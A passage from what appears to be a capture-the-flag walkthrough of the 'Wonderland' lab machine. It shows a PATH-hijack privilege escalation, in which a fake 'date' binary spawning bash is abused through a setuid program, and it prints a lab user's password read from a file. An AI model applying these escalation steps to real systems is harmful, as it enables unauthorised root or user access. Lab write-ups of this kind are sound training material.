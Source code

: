 ```c
void main(void)
{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

- Notice that while `echo` uses a path, `date` doesn't. We can probably hijack this.

```shell
$ echo "/bin/bash" > date
$ chmod 777 date
$ ls -la date
-rwxrwxrwx 1 rabbit rabbit 10 Nov 22 00:49 date
$ export PATH=/home/rabbit:$PATH
$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

## Hatter

```shell
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

- So now we are provide with a password for Hatter. But we can't run sudo.

- Last is `Capabilities` privesc. Checked my notes & GTFObins ;)
